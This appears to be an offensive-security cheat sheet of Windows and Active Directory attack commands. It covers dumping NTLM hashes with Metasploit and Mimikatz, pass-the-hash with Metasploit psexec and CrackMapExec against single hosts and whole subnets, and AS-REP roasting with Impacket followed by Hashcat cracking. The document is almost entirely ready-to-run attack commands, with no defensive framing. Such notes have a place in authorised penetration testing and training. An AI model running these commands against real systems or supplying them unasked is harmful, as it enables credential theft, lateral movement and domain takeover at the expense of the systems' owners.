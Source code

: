 ### Pass-the-Hash Attacks

#### Windows NTLM Hash Extraction
```bash
# Using Metasploit
use post/windows/gather/hashdump
set SESSION 1
run

# Using Mimikatz
privilege::debug
sekurlsa::logonpasswords
lsadump::sam

# Format:
# username:RID:LM_hash:NTLM_hash:::
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

#### Pass-the-Hash with Metasploit
```bash
use exploit/windows/smb/psexec
set RHOST 192.168.1.100
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
exploit
```

#### Pass-the-Hash with CrackMapExec
```bash
# Single target
crackmapexec smb 192.168.1.100 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0

# Network range
crackmapexec smb 192.168.1.0/24 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 --local-auth

# Execute command
crackmapexec smb 192.168.1.100 -u Administrator -H hash -x "whoami"

# Dump SAM
crackmapexec smb 192.168.1.100 -u Administrator -H hash --sam
```

### Kerberos Attacks

#### AS-REP Roasting
```bash
# Using Impacket
GetNPUsers.py domain.com/ -usersfile users.txt -dc-ip 10.10.10.10

# Crack with Hashcat
hashcat -m 18200 asrep_hashes.txt rockyou.txt
```
